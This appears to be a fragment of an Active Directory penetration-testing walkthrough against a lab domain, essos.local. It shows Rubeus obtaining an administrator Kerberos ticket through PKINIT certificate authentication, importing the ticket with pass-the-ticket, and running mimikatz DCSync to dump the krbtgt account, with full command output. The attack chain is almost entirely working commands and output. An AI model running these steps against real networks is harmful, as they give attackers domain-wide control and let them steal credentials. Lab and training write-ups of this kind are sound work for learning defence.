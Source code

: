```bash
  v2.3.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=missandei, CN=Users, DC=essos, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'essos.local\administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFujCCBbagAwIBBaEDAgEWooIEwjCCBL5hggS6MIIEtqADAgEFoQ8bDUVTU09TLkxPQ0FM
      ...base64 encoded ticket...

[*] Action: Describe Ticket

  UserName                 : administrator
  UserRealm                : ESSOS.LOCAL
  ServiceName              : krbtgt/essos.local
  ServiceRealm             : ESSOS.LOCAL
  StartTime                : 1/3/2025 10:30:15 AM
  EndTime                  : 1/3/2025 8:30:15 PM
  RenewTill                : 1/10/2025 10:30:15 AM
  Flags                    : name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  : rc4_hmac
  Base64(key)              : F5/CqQX4m7A8VwM5cT6pQg==

  Note: KeyType may show AES256 on fully-patched DCs (ADV240011)
  If KeyType shows AES256, ensure you use a 256-bit compatible CSP (e.g., Microsoft Software Key Storage Provider)
```

Perfect! Now we can use the TGT to perform DCSync:

```bash
Rubeus.exe ptt /ticket:doIFujCCBbagAwIBBaEDAgEWooIEwjCCBL5hggS6...

[*] Action: Import Ticket
[+] Ticket successfully imported!

# Now perform DCSync as administrator
mimikatz.exe "lsadump::dcsync /domain:essos.local /user:krbtgt"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:essos.local /user:krbtgt
[DC] 'essos.local' will be the domain
[DC] 'meereen.essos.local' will be the DC server
[DC] 'krbtgt' will be the DSRM user

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 1/15/2023 2:14:32 PM
Object Security ID   : S-1-5-21-1394808576-3393508183-1134699666-502
Object Relative ID   : 502
```
